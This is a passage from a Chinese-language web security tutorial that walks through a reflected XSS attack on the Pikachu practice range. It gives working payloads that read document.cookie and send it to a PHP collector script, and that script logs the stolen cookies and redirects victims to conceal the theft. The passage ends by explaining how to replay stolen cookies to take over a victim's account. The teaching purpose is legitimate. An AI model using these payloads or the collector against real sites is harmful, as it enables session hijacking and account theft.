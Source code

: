 <p data-nodeid="53196">我们试试看能否读取 cookie：</p>
<pre class="lang-java" data-nodeid="53197"><code data-language="java">http:<span class="hljs-comment">//localhost/vul/xss/xss_reflected_get.php?message=&lt;script&gt;alert(document.cookie)&lt;/script&gt;&amp;submit=submit</span>
</code></pre>
<p data-nodeid="53198">可以访问到 cookie：<br>
<img src="https://s0.lgstatic.com/i/image2/M01/04/3F/CgpVE1_r7PeAeYKNAAKRGDzBTuE416.png" alt="图片10.png" data-nodeid="53410"></p>
<div data-nodeid="53199"><p style="text-align:center">图 18：成功通过 JS 读取 Cookie</p></div>
<p data-nodeid="53200">接下来，我们就可以在自己控制的服务器写个接收 cookie 的接口，比如 cookie.php。刚好 Pikachu 靶场自带这样的功能，我以它为例，并加了关键代码的注释：</p>
<pre class="lang-php" data-nodeid="53201"><code data-language="php"><span class="hljs-meta">&lt;?php</span>
	<span class="hljs-keyword">include_once</span> <span class="hljs-string">'../inc/config.inc.php'</span>;
	<span class="hljs-keyword">include_once</span> <span class="hljs-string">'../inc/mysql.inc.php'</span>;
	$link=connect();  <span class="hljs-comment">// 连接数据库</span>
	
	<span class="hljs-comment">//这个是获取 cookie 的 api 页面</span>
	<span class="hljs-keyword">if</span>(<span class="hljs-keyword">isset</span>($_GET[<span class="hljs-string">'cookie'</span>])){  <span class="hljs-comment">// 通过 GET 参数 cookie 来接收数据</span>
	    $time=date(<span class="hljs-string">'Y-m-d g:i:s'</span>);
	    $ipaddress=getenv (<span class="hljs-string">'REMOTE_ADDR'</span>);
	    $cookie=$_GET[<span class="hljs-string">'cookie'</span>];
	    $referer=$_SERVER[<span class="hljs-string">'HTTP_REFERER'</span>];
	    $useragent=$_SERVER[<span class="hljs-string">'HTTP_USER_AGENT'</span>];
	    $query=<span class="hljs-string">"insert cookies(time,ipaddress,cookie,referer,useragent) 
	    values('$time','$ipaddress','$cookie','$referer','$useragent')"</span>;
	    $result=mysqli_query($link, $query); <span class="hljs-comment">// 将窃取的数据存入数据库</span>
	}
	header(<span class="hljs-string">"Location:http://192.168.1.4/pikachu/index.php"</span>);<span class="hljs-comment">//重定向到一个可信的网站，主要起到隐藏作用，避免被发现</span>
	
	<span class="hljs-meta">?&gt;</span>
</code></pre>
<p data-nodeid="53202">这个 cookie.php 通过 GET 参数 cookie 来接收数据，那我们向它传递 document.cookie 的值就可以窃取想要的 cookie 了。基于此，我们重新构造 URL。</p>
<p data-nodeid="53203"><strong data-nodeid="53417">注意要做 URL 编码，否则“+”连接符会被吃掉，导致无法窃取 cookie</strong>。</p>
<pre class="lang-java" data-nodeid="53204"><code data-language="java">http:<span class="hljs-comment">//localhost/vul/xss/xss_reflected_get.php?message=%3Cscript%3Edocument.location+%3D+%27http%3A%2F%2Flocalhost%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D%27+%2B+document.cookie%3B%3C%2Fscript%3E&amp;submit=submit</span>
</code></pre>
<p data-nodeid="53205">我们打开 http://localhost/pkxss/pkxss_login.php 上 XSS 后台（第一次使用时按提示点安装，然后用默认帐密登录：admin/123456），可以看到已经成功窃取到Cookie：</p>
<p data-nodeid="53206"><img src="https://s0.lgstatic.com/i/image/M00/8C/0E/CgqCHl_kTAmAQB_aAAEDK3yLJkY943.png" alt="图片11.png" data-nodeid="53423"></p>
<div data-nodeid="53207"><p style="text-align:center">图 19：窃取到 Cookie</p></div>
<p data-nodeid="53208">网上也有很多开源的 XSS 平台用来接收 Cookie，你在GitHub 搜索就可以找到很多，大多数可以直接通过 Docker 快速安装。</p>
<p data-nodeid="53209"><img src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOtaASyQeAAHRnEyplEU737.png" alt="Drawing 19.png" data-nodeid="53427"></p>
<div data-nodeid="53210"><p style="text-align:center">图 20：各种开源的 XSS 利用平台</p></div>
<p data-nodeid="67650" class="">获取 Cookie 后，我们就可以本地修改 Cookie 来登录受害者的账号（除非刚好窃取的 Cookie 不包含用户登录信息，比如未登录状态下访问的攻击链接），可以使用 Chrome 插件 EditThisCookie 来设置窃取的 Cookie：</p>
